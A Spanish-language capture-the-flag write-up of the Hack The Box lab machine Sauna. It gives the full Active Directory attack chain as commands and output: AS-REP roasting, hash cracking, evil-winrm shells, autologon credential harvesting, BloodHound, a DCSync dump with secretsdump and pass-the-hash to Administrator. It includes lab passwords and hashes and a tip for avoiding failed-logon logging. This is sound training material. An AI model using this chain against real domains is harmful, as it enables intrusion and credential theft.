





Sauna es una máquina Windows de fácil dificultad que cuenta con enumeración y explotación de Active Directory. Los posibles nombres de usuario pueden derivarse de los nombres completos de los empleados que aparecen en el sitio web. Con estos nombres de usuario, se puede realizar un ataque ASREPRoasting, que da como resultado el hash de una cuenta que no requiere preautenticación Kerberos.

Este hash puede ser sometido a un ataque de fuerza bruta offline, con el fin de recuperar la contraseña en texto plano para un usuario que es capaz de WinRM a la caja. La ejecución de WinPEAS revela que otro usuario del sistema ha sido configurado para iniciar sesión automáticamente e identifica su contraseña. Este segundo usuario también tiene permisos de administración remota de Windows. BloodHound revela que este usuario tiene el derecho extendido DS-Replication-Get-Changes-All, que le permite volcar hashes de contraseñas desde el Controlador de Dominio en un ataque DCSync. La ejecución de este ataque devuelve el hash del administrador de dominio principal, que se puede utilizar con Impacket psexec.py para obtener una shell en la caja como NT_AUTHORITY\SYSTEM.

# Initial Recon

```bash
> ping -c 1 10.10.10.175

PING 10.10.10.175 (10.10.10.175) 56(84) bytes of data.
64 bytes from 10.10.10.175: icmp_seq=1 ttl=127 time=140 ms

--- 10.10.10.175 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 139.637/139.637/139.637/0.000 ms
```

Podemos ver en el escaneo de puertos que se filtra el dominio EGOTISTICAL-BANK.LOCAL. También hay tres servicios que tienen una superficie de ataque goof http 80, smb 445 y ldap 389.

También podemos mirar y ver que esto es probablemente un controlador de dominio. Teniendo puertos; 53 DNS, 88 Kerberos y 445 son puertos comunes de DC.

```bash
> nmap -sS --open -p- --min-rate 5000 -n -Pn -v -oG 10.10.10.175 nmap 
```

| Port  | Service       | Product                               | Version |
|-------|---------------|---------------------------------------|---------|
| 53    | domain        | Simple DNS Plus                       |         |
| 80    | HTTP          | Microsoft IIS httpd                   | 10.0    |
| 88    | kerberos-sec  | Microsoft Windows Kerberos            |         |
| 135   | msrpc         | Microsoft Windows RPC                 |         |
| 139   | netbios-ssn   | Microsoft Windows netbios-ssn          |         |
| 389   | ldap          | Microsoft Windows Active Directory LDAP |         |
| 445   | microsoft-ds  |                                       |         |
| 464   | kpasswd5      |                                       |         |
| 593   | ncacn_http    | Microsoft Windows RPC over HTTP        | 1.0     |
| 636   | tcpwrapped    |                                       |         |
| 3268  | ldap          | Microsoft Windows Active Directory LDAP |         |
| 3269  | tcpwrapped    |                                       |         |
| 5985  | http          | Microsoft HTTPAPI httpd               | 2.0     |
| 9389  | mc-nmf        | .NET Message Framing                   |         |
| 49667 | msrpc         | Microsoft Windows RPC                 |         |
| 49677 | ncacn_http    | Microsoft Windows RPC                 | HTTP 1.0|
| 49676 | msrpc         | Microsoft Windows RPC                 |         |
| 49706 | msrpc         | Microsoft Windows RPC                 |         |
| 49775 | msrpc         | Microsoft Windows RPC                 |         |

# Active Directory

### Web - Port 80



En la página about http://10.10.10.175/about.html, podemos ver que hay una sección «Meet The Team» y encontrar un puñado de personas. He registrado cada uno de los nombres en el archivo llamado listUsers.txt.

```bash
> cat listUsers.txt 

Fergus Smith
Shaun Coins
Hugo Bear
Bowie Taylor
Sophie Driver
Steven Kerb
```

A continuación voy a utilizar una herramienta llamada nombre de usuario-anarquía para transformar la lista de palabras de los nombres a uno con nombres de usuario comunes esquemas, Herramienta Aquí

```bash
> ./username-anarchy --input-file listUsers.txt --select-format first,last,first.last,flast > users.txt
```
También añadiré Administrador al archivo.

## SMB - Port 445 Recon

Me gusta usar crackmapexec para enumerar SMB.

Podemos ver el nombre de host, dominio y ver idf SMBv1 está habilitado.

```bash
> crackmapexec smb 10.10.10.175  
SMB         10.10.10.175    445    SAUNA            [*] Windows 10.0 Build 17763 x64 (name:SAUNA) (domain:EGOTISTICAL-BANK.LOCAL) (signing:True) (SMBv1:False)
```

No podemos ver ningun shares.

```bash
> crackmapexec smb 10.10.10.175 --shares
SMB         10.10.10.175    445    SAUNA            [*] Windows 10.0 Build 17763 x64 (name:SAUNA) (domain:EGOTISTICAL-BANK.LOCAL) (signing:True) (SMBv1:False)
SMB         10.10.10.175    445    SAUNA            [-] Error enumerating shares: STATUS_USER_SESSION_DELETED
```

A veces podemos intentar hacer una sesión nula para ver si conseguimos algo más. Una sesión nula es simplemente no proporcionar nada para el nombre de usuario y la contraseña. Pero todavía nada.

```bash
> crackmapexec smb 10.10.10.175 --shares -u '' -p ''
SMB         10.10.10.175    445    SAUNA            [*] Windows 10.0 Build 17763 x64 (name:SAUNA) (domain:EGOTISTICAL-BANK.LOCAL) (signing:True) (SMBv1:False)
SMB         10.10.10.175    445    SAUNA            [+] EGOTISTICAL-BANK.LOCAL\: 
SMB         10.10.10.175    445    SAUNA            [-] Error enumerating shares: STATUS_ACCESS_DENIED
```

También podemos probar con otra herramienta llamada smbmap a ver si nos da algo diferente pero no lo hace.

```bash
> smbmap -H 10.10.10.175

[+] IP: 10.10.10.175:445        Name: 10.10.10.175 
```

## Kerbrute

Ahora que tengo una lista de posibles nombres de usuario puedo utilizar una herramienta llamada kerbrute para probar y ver si alguno de los nombres de usuario son válidos.

Lo bueno de kerburte es que no crea el evento id 4625 en los logs. El evento id 4625 documentará cada log-on fallido. En su lugar se creará un evento Kerberos Failure id 4771, que no se registra por defecto.

```bash
> kerbrute userenum --dc 10.10.10.175 -d EGOTISTICAL-BANK.LOCAL listUser.txt

2024/02/18 09:31:07 >  Using KDC(s):
2024/02/18 09:31:07 >  	10.10.10.175:88

2024/02/18 09:31:07 >  [+] VALID USERNAME:	fsmith@EGOTISTICAL-BANK.LOCAL
2024/02/18 09:31:07 >  Done! Tested 12 usernames (1 valid) in 0.285 seconds
```

Ahora que tenemos dos nombres de usuario válidos podemos aprovechar algunas secuencias de comandos Impacket github. El que usé en esta máquina fue GetNPUser.py que hará un AS_REP Roast/Kerberoast.

```bash
> impacket-GetNPUsers EGOTISTICAL-BANK.LOCAL/fsmith 

$krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL:bfa9cf66c4efa162cd18472a39b04966$5c796f89e55dfba2c4b0eccfa2b4198679aeddbfbddc37430a2bc75a49e472e05ccc330187a59c43f603b58e124e4c864c7d02d056056c6d782b32ca6156bb7b7b530effe162bdb7d7ce8470bebf8ce61238e23648957feed32538f0ee1f417c420243316ffb917605e649d42e249a5b2726a59ee9d2816edf045407b88dade504d12f41942faf1f244f5f29dc187e1c964677f66dc2e0160b6e56693f7f8a22816836215ecf22188e5024fb37f57e8e74b274d8eaa5b1296055ed33471620245ec1c7fb0653d0cd053156c314e181d0719c9f75c1032e3a4215c310378a1f3002ab5936223251ac1ea2190bf6fd74eb2c18e18067f186f1415533fddd6dea50
```

Ahora que tenemos un hash podemos utilizar hashcat para descifrarlo, hice esto en mi máquina host para utileze una GPU. obtenemos un éxito y ahora tenemos un creds fsmith

```bash
> .\hascat.exe -m 18200 ..\hash ..\rockyou.txt --force

fsmith:Thestrokes23
```

## SMB PT2

Ahora que tenemos unas credenciales válidas fsmithpodemos intentar autenticarnos en SMB de nuevo usando crackmapexec y podemos ver que ¡tenemos credenciales válidas!

```bash
> crackmapexec smb 10.10.10.175 -u fsmith -p Thestrokes23
SMB         10.10.10.175    445    SAUNA            [*] Windows 10.0 Build 17763 x64 (name:SAUNA) (domain:EGOTISTICAL-BANK.LOCAL) (signing:True) (SMBv1:False)
SMB         10.10.10.175    445    SAUNA            [+] EGOTISTICAL-BANK.LOCAL\fsmith:Thestrokes23 
```

A continuación voy a enumerar acciones y una sobresale RICOH Aficio SP 8300DN PCL 6

```bash
> crackmapexec smb 10.10.10.175 -u fsmith -p Thestrokes23 --shares
SMB         10.10.10.175    445    SAUNA            [*] Windows 10.0 Build 17763 x64 (name:SAUNA) (domain:EGOTISTICAL-BANK.LOCAL) (signing:True) (SMBv1:False)
SMB         10.10.10.175    445    SAUNA            [+] EGOTISTICAL-BANK.LOCAL\fsmith:Thestrokes23 
SMB         10.10.10.175    445    SAUNA            [+] Enumerated shares
SMB         10.10.10.175    445    SAUNA            Share           Permissions     Remark
SMB         10.10.10.175    445    SAUNA            -----           -----------     ------
SMB         10.10.10.175    445    SAUNA            ADMIN$                          Remote Admin
SMB         10.10.10.175    445    SAUNA            C$                              Default share
SMB         10.10.10.175    445    SAUNA            IPC$            READ            Remote IPC
SMB         10.10.10.175    445    SAUNA            NETLOGON        READ            Logon server share 
SMB         10.10.10.175    445    SAUNA            print$          READ            Printer Drivers
SMB         10.10.10.175    445    SAUNA            RICOH Aficio SP 8300DN PCL 6                 We cant print money
SMB         10.10.10.175    445    SAUNA            SYSVOL          READ            Logon server share 
```                                                                                                    

Echando un vistazo a searchsploit hay un puñado de exploits para esto pero primero necesitamos una shell. Podemos ver que podemos autenticar con winrm.

```bash
> crackmapexec winrm 10.10.10.175 -u 'fsmith' -p 'Thestrokes23' 
SMB         10.10.10.175    5985   SAUNA            [*] Windows 10.0 Build 17763 (name:SAUNA) (domain:EGOTISTICAL-BANK.LOCAL)
HTTP        10.10.10.175    5985   SAUNA            [*] http://10.10.10.175:5985/wsman
WINRM       10.10.10.175    5985   SAUNA            [+] EGOTISTICAL-BANK.LOCAL\fsmith:Thestrokes23 (Pwn3d!)
```

Usaré evil-winrm para conseguir shell.

```bash
> evil-winrm -u fsmith -i 10.10.10.175 -p Thestrokes23
```
Echando un vistazo al Escritorio podemos coger nuestra bandera de usuario.

# Lateral movement

He subido una gran herramienta llamada winPEAS que es genial para un poco de automatización cuando se trata de escalar. Lo subí usando Evil-Winrm

```bash
*Evil-WinRM* PS C:\Temp> upload winPEASx64.exe 
                                        
Info: Uploading /home/mhil4ne/Downloads/winPEASx64.exe to C:\Temp\winPEASx64.exe
                                        
Data: 3183272 bytes of 3183272 bytes copied
                                        
Info: Upload successful
```

Obtenemos una gran cantidad de resultados de esto, pero una sección sobresale en particular, el AutoLogon Una cuenta de servicio tiene un inicio de sesión automático activado y podemos cosechar svc_loanmgr! como credenciales válidas.



Podemos probar esas credenciales con Evil-Winrm y entramos

```bash
> evil-winrm -u svc_loanmgr -i 10.10.10.175 -p Moneymakestheworldgoround!

*Evil-WinRM* PS C:\Users\svc_loanmgr\Documents> 
```

# Get Administrator

Con estas credenciales, podemos ejecutar una herramienta llamada Bloodhound. Es una herramienta que encuentra relaciones ocultas dentro de Active Directory. A menudo puede conducir a una rápida escalada de privilegios. Hay una versión en python e impacket que usaré para Sauna.

La instalación es muy sencilla.

```bash
sudo pip install bloodhound
```

Entonces podemos ejecutar el comando:

```bash
> bloodhound-python -u svc_loanmgr -p Moneymakestheworldgoround! -d EGOTISTICAL-BANK.LOCAL -ns 10.10.10.175 -c All
```

Para iniciar el ataque. creó un montón de archivos .json que que vamos a importar en bloodhound.

```bash
> ls
20240218112738_computers.json    20240218112738_domains.json   20240218112738_groups.json   20240218112738_users.json
20240218112738_containers.json   20240218112738_gpos.json      20240218112738_ous.json
```
para iniciar la consola bloodhound ejecuté neo4j console y luego bloodhound en la consola. A continuación, vamos a subir nuestros archivos haciendo clic en el botón de carga a la derecha.



Después de importar nuestros archivos podemos seleccionar «Find Principals with DCSync Rights» y genera un gráfico. Nuestra cuenta de servicio tiene dos permisos. Nótese que son permisos similares a los de los administradores.

    - GetChanges
    - GetChangesAll



Hice clic con el botón derecho en la relación y seleccioné «Ayuda». En Abuse info,m me enteré de que podemos realizar un ataque dcsync para obtener hashes de contraseñas.



Impacket tiene una herramienta llamada secretsdump.py que podemos utilizar para aprovechar esto.

```bash
python3 secretsdump.py egotistical-bank/svc_loanmgr@10.10.10.175 -just-dc-user Administrator 
Impacket v0.11.0 - Copyright 2023 Fortra

Password:
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:42ee4a7abee32410f470fed37ae9660535ac56eeb73928ec783b015d623fc657
Administrator:aes128-cts-hmac-sha1-96:a9f3769c592a8a231c3c972c4050be4e
Administrator:des-cbc-md5:fb8f321c64cea87f
```

Ahora tenemos el Hash de los administradores. Podemos usarlo en un ataque pass the hash.

```bash
> evil-winrm -u Administrator -i 10.10.10.175 -H 823452073d75b9d1cf70ebdf86c7f98e
```

somos administradores.

